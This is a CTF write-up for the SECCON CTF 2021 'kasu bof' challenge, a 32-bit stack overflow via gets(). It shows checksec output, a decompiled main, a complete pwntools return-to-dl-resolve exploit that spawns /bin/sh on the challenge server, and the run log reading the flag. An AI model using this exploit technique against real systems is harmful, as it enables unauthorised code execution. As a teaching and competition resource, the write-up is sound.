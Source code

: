 # SECCON CTF 2021

## kasu bof

> 112
>
> Do you understand return-to-dl-resolve attack on 32-bit?
> 
> `nc hiyoko.quals.seccon.jp 9001`
>
> Author: ptr-yudai
> 
> [`kasu_bof.tar.gz`](kasu_bof.tar.gz)

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _ret2dlresolve_


## Summary

LOL, this is the first time I read the challenge description, but yes, this an easy 32-bit _return-to-dl-resolve_ challenge.

> I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:
>
> [https://syst3mfailure.io/ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve)  
> [https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)
> 
> The challenge author also posted his [solution](solver.py) to the SECCON CTF 2021 Discord in #pwn.  I'm unaware of any external link, so I've included as part of this writeup.  This is a very good resource to follow if you want to understand how to roll-your-own.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

At least three conditions must be met for _ret2dlresolve_, No PIE (or a base process leak), No canary (or a canary leak, or some other way to write down stack), and Partial RELRO.  We're all clear here.


### Decompile with Ghidra

```c
undefined4 main(void)
{
  char local_88 [128];
  undefined4 local_8;
  
  local_8 = 0;
  gets(local_88);
  return 0;
}
```

`gets` and the lack of mitigations above = easy shell with _ret2dlresolve_.

*Are there other methods?*

Perhaps, however there's not a lot to work with.  No leaks, and nothing else in the GOT.  IOW, we're blind, no output until we get a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./kasu')

dl = Ret2dlresolvePayload(binary, symbol='system', args=['/bin/sh'])

rop = ROP(binary)
rop.gets(dl.data_addr,len(dl.payload))
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('hiyoko.quals.seccon.jp', 9001)
else:
    p = process(binary.path)

payload  = b''
payload += 0x88 * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

Almost straight from: [https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html).

All we needed to figure out is the `0x88` (end of the stack frame where the return address is), and we get this for free from Ghidra (.e.g `local_88`).


```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/seccon2021/kasu/kasu'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded 11 cached gadgets for './kasu'
[+] Opening connection to hiyoko.quals.seccon.jp on port 9001: Done
[*] Switching to interactive mode
$ id
uid=999(pwn) gid=999(pwn) groups=999(pwn)
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
```
